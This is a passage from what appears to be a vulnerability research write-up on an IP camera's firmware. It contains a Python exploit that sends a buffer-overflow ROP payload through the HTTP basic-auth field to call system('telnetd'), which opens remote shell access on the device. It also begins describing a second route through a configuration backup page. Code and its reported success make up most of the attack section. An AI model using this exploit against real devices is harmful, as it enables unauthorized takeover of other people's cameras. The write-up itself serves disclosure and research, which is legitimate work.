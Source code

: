 So, we just updated our initial script in order to include some ARM assembly instructions to add a `telnetd` string contained into the binary `.text` section along with the `system()` instruction address:

We also found a `telnetd` string contained into the binary `.text` section:

![](telnetd_addr.png)

So, gluing these parts together, we came up the the following ARM instructions in our exploit code, which push the `telnetd` string to the stack and call `system` on it:


```
from requests import get

FORBIDDEN_URL = "http://127.0.0.1/log"

def exploit():
    sc = "\xa4\xbb\x0b\x00"  # pop {r0, pc}
    sc += "\x9c\xea\x0b\x00" # telnetd str addr
    sc += "\x98\x77\x02\x00" # system addr
    payload = 140 * "\x00" + sc
    try:
        r = get(FORBIDDEN_URL, auth=(payload,''), timeout=2)
        print r.text
        exit(0)
    except:
        pass

if __name__ == '__main__':
    exploit()
```

The exploit worked as expected: the `telnetd` service was successfully enabled!

##### Second way

Inside the `ipc_server` binary, we found a `backup.cgi` web page that is used to backup the configuration inside a compressed archive. We extracted it and found these configuration files:

```
[mickael@m mnt]$ tree
└── mtd
    └── ipc
        └── conf
            ├── config_3thddns.ini
            ├── config_action.ini
            ├── config_alarm.ini
            ├── config_alarm_token.ini
            ├── config_com485.ini
            ├── config_cover.ini
            ├── config_custom.ini
            ├── config_debug.ini
            ├── config_devices.ini
            ├── config_encode.ini
            ├── config_image.ini
            ├── config_md.ini
            ├── config_ntp.ini
            ├── config_osd.ini
            ├── config_ptz.ini
            ├── config_recsnap.ini
            ├── config_run3g.ini
            ├── config_schedule.ini
```
